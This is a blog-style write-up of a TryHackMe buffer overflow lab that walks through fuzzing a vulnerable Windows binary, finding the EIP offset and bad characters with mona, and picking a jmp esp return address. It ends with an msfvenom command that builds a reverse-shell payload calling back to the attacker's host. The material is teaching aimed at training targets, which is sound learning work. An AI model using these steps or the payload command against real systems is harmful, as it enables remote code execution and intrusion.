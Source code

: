 ```yaml
---
title: BUFFER OVERFLOW PREP  
published: true
---
```

<br/>
# [](#header-1)BUFFER OVERFLOWS - Explained by an average IT guy
<br/>
<br/>
When I first read a write-up of someone explaining how a buffer overflow worked, my brain melted and poured out of my ears. After doing some research, I am able to keep all of my brain matter intact and inside my cranium. In this write-up, I will walk through the first part of Tib3rius' 'Buffer overflow prep' room on Tryhackme (excellent room, thanks for making it!).
<br/>
<br/>
## oscp.exe OVERFLOW1
<br/>
<br/>
Right off the rip, the best resource that I found to explain in detail what the heck is going on when buffers are overflowed is the following blog post by 0xRick:
<br/>
<br/>
[Binary Exploitation - Buffer Overflow Explained in Detail](https://0xrick.github.io/binary-exploitation/bof1/)
<br/>
This explains in much better detail how a stack is structured and why buffer overflow's are a thing better than I ever could.
<br/>
Step one is to open immunity debugger:
<br/>
<br/>
![](images/Buffer-Overflow-Prep/1.png)
<br/>
<br/>
One additional plugin that will be used is mona. Mona.py is a (healthy 19,000+ line) python script that, when integrated with immunity, allows the user to use a variety of commands to search through the application that is being debugged. It is important to note that mona.py will ONLY work with python 2.7. To add the mona plugin to immunity debugger, download the following from Github:
```
https://raw.githubusercontent.com/corelan/mona/master/mona.py
```
<br/>
<br/>
and place that script in the 'PyCommands' folder in the immunity debugger application. Then set a working directory by entering the following command at the input field at the bottom of immunity:
```
!mona config -set workingfolder c:\mona\%p
```
<br/>
Now probably the most important part comes next, make sure you didn't already break something by testing that the vulnerable program is running properly:
<br/>
![](images/Buffer-Overflow-Prep/2.png)
<br/>
Great, the first step for exploiting a binary is fuzzing. Fuzzing is the process of sending malformed data in an automated fashion to a (hopefully) vulnerable application in an effort to see at what point it fails. Fuzzing is used to gather information regarding a target application. Sometimes, fuzzing can lead to accidental exploitation which is extra effecient. The fuzzing script that was written by Tib3rius is the following:
<br/>
<br/>
![](images/Buffer-Overflow-Prep/3.png)
<br/>
<br/>
So we have a fuzzing script, but what is it doing? Fuzzer.py attempts to manifest a connection with the machine running the binary and then for the first iteration of the while loop sends the prefix "OVERFLOW1" to specify which program we are trying to run. Then it attempts to pass 100 "A" characters to the binary and will continue to do so until it crashes. Knowing how many bytes the binary can handle before it crashes is what we are trying to learn. Running fuzzer.py shows us the following:
<br/>
![](images/Buffer-Overflow-Prep/4.png)
<br/>
So now we know that it takes 2000 bytes to crash the OVERFLOW1 binary, the next step is beginning to craft the exploit. The next script we have to create (when I say create what I really mean is copy and paste from Tib3rius' exploit.py script) is what will exploit the fact that this binary crashes after 2000 bytes.
<br/>
![](images/Buffer-Overflow-Prep/5.png)
<br/>
Awesome, we have some more python to take a look at. We see some familiar functionality from fuzzer.py, we connect to the machine and make sure we are running the OVERFLOW1 binary. We see that we send the "buffer" variable to the binary which is a combination of the prefix, offset, overflow, retn, padding, payload, and postfix variables. I'll do my best to explain what each of these are as we go in and edit them and develop the exploit script. The next step is to generate a value for the payload variable using the following metasploit framework ruby script:
<br/>
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l NUMBER
```
<br/>
Replacing 'NUMBER' with the amount of bytes (NOTE: it is recommended to add more bytes in incrememnts of 100 to this number just in case) it took to crash the binary will generate a long string of lowercase/uppercase characters, copy and paste the returned value into the payload variable of the exploit.py script:
<br/>
![](images/Buffer-Overflow-Prep/6.png)
<br/>
So instead of sending 2000 "A" characters we are now sending a pattern of unique characters.  We do this so we can search where exactly where crashes occur since we now have a pattern to search through instead of the same character over and over. Now we restart the program and run the exploit.py script with the updated payload. Now that we crashed the program, we use mona to search for more information:
<br/>
```
!mona findmsp -distance NUMBER
```
<br/>
Since I generated a pattern that was 2400 bytes long, my mona search will be 2400 for the distance option:
<br/>
![](images/Buffer-Overflow-Prep/7.png)
<br/>
The big takeaway from the above image that we are interested in is what mona was able to find when taking look at the registers. The two registers that are very important are the EIP register and ESP register. EIP is short for "Extended Instruction Pointer" it tells where in memory the computer should look for the next command. Our goal is to exploit this functionality and have EIP point some kind of instruction that was the result of us overflowing the buffer and writing our own special instructions into memory. ESP stands for "Extended Stack Pointer" and it points to the location of the stack at any time. Disclamer: I am not an expert at assembely/x86-architecture/linear data structures and do not have in depth knowledge of these topics, thus the explination of these registers are very high-level.
<br/>
<br/>
Thanks to mona, we know at what offset of the EIP register, we now go into our exploit.py and do 2 things. First, make the payload value a blank string. Then change the offset to whatever value mona was able to find (in this case it would be 1978). Great so in its current state our exploit.py should send 1978 "A" characters to the program.
<br/>
<br/>
![](images/Buffer-Overflow-Prep/8.png)
<br/>
 Now we are ready for the next step, finding bad characters.
<br>
The first step in finding which characters are bad and should be excluded from the payload is generating a byte array using mona. Bad characters are bad becuase they negatively affect the buffer in some way. A prime example of a bad character is "\x00" which is the hexidecimal encoded "null byte" character. When the binary is reading the string (in C/C++) that includes a null byte character, it will result in termination of the buffer at that point. This would result in only a portion of our payload actually being written in memory. We want to identify which characters cause behavior like this and remove them from our payload. The following mona command can be used to generate a byte array that will help us investigate for bad characters:
<br/>
```
!mona bytearray -b "\x00"
```
<br/>
This will create two files in your previously defined working directory called bytearray.bin and bytearray.txt. Next we run the following python to generate a string of characters that excludes the null byte by default:
<br/>
```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
<br/>
We now change the value of our payload variable once again to the newly generated string of hex encoded character values. One additional change we have to make is editing the value of the retn variable. "retn" in this script stands for return address. We know that by sending 1978 "A" chars to the binary will get us to the offset of the EIP register but we still haven't overwritten the EIP register. The return address will be the value that we will use to overwrite EIP. We will change it to be a "BBBB"
<br/>
![](images/Buffer-Overflow-Prep/9.png)
<br/>
Awesome! Our exploit development is going well. Now we want to run the exploit against the binary again. After doing so we can see some interesting changes in immunity:
<br/>
![](images/Buffer-Overflow-Prep/10.png)
<br/>
There are two things to take note of. First at the bottom, we can see that it says we have an access violation when executing 42424242. This proves that the EIP register has been overwritten with four "B" characters as 42 is the unicode hex char code for B. The second is the address of the ESP register, in this case it is 017DFA30. We want to examine the ESP register as this is what comes directly after the EIP register and thus where all of our payload char values will be written to. To examine the ESP register, you can right click the address and select "follow in dump". You should see hexidecimal representation of the bytes that were used in the payload variable however some characters are missing. The first one that we can't seem to find is 07 and the next is 08. It's possible that these are bad chars, we can investigate further using the following mona command:
<br/>
```
!mona compare -f C:\mona\oscp\bytearray.bin -a 017DFA30
```
<br/>
<br/>
![](images/Buffer-Overflow-Prep/11.png)
<br/>
So we have 00 07 08 2e 2f a0 a1. We know that the null byte is for sure a bad character but what about the rest? Notice how a few of these chars seem to include the char that follows it? 07 is before 08, 2e is before 2f, and a0 is before a1. It is likely that 07, 2e, and a0 all are responsible for overwritting the character that would come next in the sequence. This is why 08, 2f, and a1 show up as bad chars in mona but might not be bad characters. From here we can start removing the listed characters from our exploit string, create a new byte array with the bad chars we find, and keep running the exploit and checking the ESP register's (Note that the address of the ESP register may change when running the exploit) status to see where it crashes. For the current example we can assume (correctly) that bad chars will be "\x00\x07\x2e\xa0". We would do this until we see the following using mona:
<br/>
![](images/Buffer-Overflow-Prep/12.png)
<br/>
<br/>
Awesome, we are free from any bad characters that could ruin our payload. Now it's time to find a jump point. Using the following mona command and our newly found list of bad chars:
<br/>
```
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```
<br/>
What this will do is find instructs in the binary that will perform "jmp esp" or something equivalent in addresses that do not contained the bad chars you state after -cpb. Select Window > Log Data to view what mona finds. Here are the results:
<br/>
![](images/Buffer-Overflow-Prep/13.png)
<br/>
Nice, now we can edit the exploit.py script and edit the "retn" variable to use an address that mona returned. I used the first one (625011af) for this example. Since the system is little endian, we need to make sure this value is interpreted correctly. This is why we must write the address in reverse order, the value of retn should be "\xaf\x11\x50\x62". If we wanted to test that the address is working we can make the payload a blank string, set a breakpoint at that address and see what happens after running the exploit. 
<br/>
![](images/Buffer-Overflow-Prep/14.png)
<br/>
<br/>
Now we are getting to the end of the process it is time to generate a payload. Using the following msfvenom commmand and your updated IP address will create a reverse shell payload.
<br/>
<br/>
```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```
<br/>
You could generate python code by replacing the c at the end of the command with py but the c code that is created is cleaner and is still valid. Great we have our payload, now one final modification we must make before we get a reverse shell is prepending nops to the payload. We need to do this if an encoder was used to create the payload. With the command above, the shikata_ga_nai encoder was used so we will need to prepend nops to the payload. This can be done by editing the value of the "padding" variable to be equal to "\x90" * 16. 
<br/>
![](images/Buffer-Overflow-Prep/16.png)
<br/>
Moment of truth, listen on the port specified in the payload and run the exploit!
<br/>
![](images/Buffer-Overflow-Prep/17.png)
<br/>
It worked! From fuzzing to a reverse shell, this would be the process for exploiting a simple stack buffer overflow. Thanks for reading!